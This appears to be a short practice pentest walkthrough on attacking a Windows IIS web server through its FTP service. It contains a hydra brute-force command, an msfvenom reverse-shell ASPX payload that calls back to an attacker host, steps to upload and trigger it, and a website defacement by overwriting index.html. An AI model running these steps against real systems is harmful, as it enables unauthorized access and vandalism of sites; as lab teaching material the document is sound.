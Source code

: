 # Targeting Microsoft IIS FTP

## Practice Demo

In this black box pentest against the Windows target, during the enumeration phase we notice a "<mark style="color:red;">Microsoft ftpd</mark>" as well as a "<mark style="color:red;">Microsoft IIS"</mark> Web server. This means they are intertwined, part of the same packge. The ftp server allows users to authenticate to be able to modify the web servers directory.

#### Performing a brute force against the ftp service using hydra

* <mark style="color:yellow;">hydra -L 'userlist' -P 'passlist' targetIP ftp</mark>

When logged in we see a "<mark style="color:red;">asp</mark>" file, that is executed by the webserver.

We can create an "<mark style="color:red;">asp</mark>" payload with msfvenom to create a reverse shell.

* <mark style="color:yellow;">msfvenom -p windows/shell/reverse\_tcp LHOST=attackerIP LPORT=1234 -f aspx > shell.aspx</mark>

Now we transfer it to the target machine through FTP

After confirming the file was transferred, setup the <mark style="color:red;">multi/handler</mark> in msfconsole.

Finally, execute it in the browser:

* <mark style="color:yellow;">http://targetIP/nameofpayload</mark>

Since, in this case it doesn't work, because asp normally only runs simple stuff... we will deface the website

* <mark style="color:yellow;">get index.html</mark>

And then modify the file and upload it again

* <mark style="color:yellow;">put index.html</mark>


















